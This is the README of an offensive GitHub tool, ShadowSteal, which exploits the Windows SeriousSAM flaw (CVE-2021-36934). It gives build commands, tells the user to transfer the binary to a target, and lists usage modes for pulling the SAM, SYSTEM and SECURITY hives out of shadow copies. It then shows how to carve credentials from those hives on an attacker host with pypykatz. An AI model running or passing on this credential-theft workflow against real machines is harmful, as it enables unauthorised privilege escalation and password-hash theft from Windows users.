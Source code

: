 # ShadowSteal | CVE-2021-36934
Pure Nim implementation for exploiting CVE-2021-36934, the SeriousSAM Local Privilege Escalation (LPE). Not OPSEC safe.... yet ;). I do not claim credit for the discovery of this exploit.

## Quick Start

### Build with Docker
Getting started with ShadowSteal is now easier than ever thanks to Docker! Don't wanna mess with installing Nim dependencies? I got you, fam! Run the Python script to create the Docker build environment, compile the binary, transfer it back to your host, and then kill the container.

Install Docker on your host (look up the documentation for how to install for different OS), then run the ShadowSteal Python script in the main dir:
```
$ git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
```
```
$ sudo python3 ShadowSteal.py && cd bin/ && ls -l
```

### Build from Source
Or, build from source by installing Nim and its dependencies:

```
$ sudo apt-get install nim
```
```
$ nimble install zippy argparse winim
```

Install the MinGW tool chain if it's not already installed.
```
$ sudo apt-get install mingw-w64
```
```
$ git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
```
```
$ make && cd bin/ && ls -l
```
Transfer to target...
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
```

## Summary
Due to some oversight by Microsoft, regular users have read permissions over the contents of the ...\System32\config\ folder in recent Windows builds. Among other things, this means that a low level user has read access to the SAM, System, and Security files in ...\System32\config.

![1.png](img/1.png)

Ooof. So what can we do with this?

Some very observant researchers (shout out [@jonasLyk](https://twitter.com/jonasLyk)!) noticed that if a Windows host has been using a specific system restore configuration, "Volume Shadow Copies", then the host stores backup copies of these files that are accessible via the Win32 device namespace for these copies.

![2.png](img/2.png)

![3.png](img/3.png)

The SAM is normally locked during the host's operation, so accessing the SAM in ...\System32\config\ is out of the question. But these shadow volume copies are fair game for any user on the host due to this misconfiguration. Very nice!

## ShadowSteal

ShadowSteal is a binary written in Nim to automate the enumeration and exfiltration of the SAM, System, and Security files from these shadow copies. It iterates through the possible locations of the shadow copies and, when it has found a target, it extracts the files to a zipped directory (think Bloodhound output).

![4.png](img/4.png)

## Features:
- Triage and Bruteforce mode, for thorough or rapid enumeration.
- Automated extraction and rollup of target credentials.
- Jeff Beezy mode. (wait, what?)
- Integrated Docker build environment for easy complation!
- Will enumerate all available HarddiskShadowCopy locations, pick the highest number dynamically, and target those for exploitation/extraction.

![6.png](img/6.png)

It's nothing earth shattering and the code is hacky, but it works and it was a fun build!

## Installing from Source

Install Nim:

```
$ sudo apt-get install nim
````
Install dependencies:
```
$ nimble install zippy argparse winim
```
Install the MinGW tool chain if it's not already installed:
```
$ sudo apt-get install mingw-w64
```

Compile for 64-bit Windows:
```
$ make
```

Transfer to target and run it!
## Usage

```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
[*] ShadowSteal! Identifies and extracts credentials that can be stolen due to the SeriousSAM (CVE-2021-36934) exploit. Searches from high to low, defaults searching 100 to 1.

Usage:
   [options]

Options:
  -h, --help
  -t, --triage               [*] Triage mode. Quick enumeration, tries to find quick wins.
  -bf, --bruteforce          [*] Bruteforce mode. Enumerates the entire range of possible locations (512 to 1). Takes a bit.
  -b, --bezos                [?] Jeff Bezos Mode
```

## Triage mode
Limits location bruteforce to 10 to 1, decrementing with each attempt. Speedy and effective in most environments.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -t
```

## Bruteforce mode
Searches all possible locations (512), decrementing down to 1. Try this to thoroughly enumerate the environment. Takes a few minutes.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -bf
```

## Parsing Output

Transfer the output directory back to your attacker host and carve the data with Pypykatz. To install:
```
$ pip3 install pypykatz
```
To run Pypykatz:
```
$ pypykatz registry [yyyyMMddhhmm_SYSTEM] --sam [yyyyMMddhhmm_SAM] --security [yyyyMMddhhmm_SECURITY]
```
![5.png](img/5.png)

## Release History

### v.04.01 | the Docktastic update
Now features an easy pre-packaged Docker build environment! Just run the ShadowSteal.py script to set up the Docker environment, compile the binay, transfer it back out to your host, and kill the build containers. It just works! (Some assembly requied, i.e. you need Docker to run it).

###  v.03.69 | the N I C E update
Lean and mean. Optimized compile options added. HUGE performance increase due to compiler optimization, full bruteforce now takes place almost instantly. Huge thanks to @orbitalgun for the pseudo PR, glory be to your house and name!

### v.02 THE JEFF BEEZY UPDATE
- Bruteforce and Triage mode
- A better search algo
- Code cleanup
- Jeff Beezy Mode
- Lots of lessons learned from the first release!

### v.01 THE LAUNCHPAD RELEASE
Stap in boiz, this trainwreck is a-rollin. This release was my rapid prototype and it was pretty terrible lol. Lots of fun to build though!
Features:
- "Working" code

## References

- Original disclose of this CVE by by [@jonasLyk](https://twitter.com/jonasLyk).
- [CVE Reference page](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)
- Lyric credit: Bezos I by Bo Burnham. All Rights Reserved.

## Disclaimer

- For legal, ethical use only.


![7.png](img/7.png)
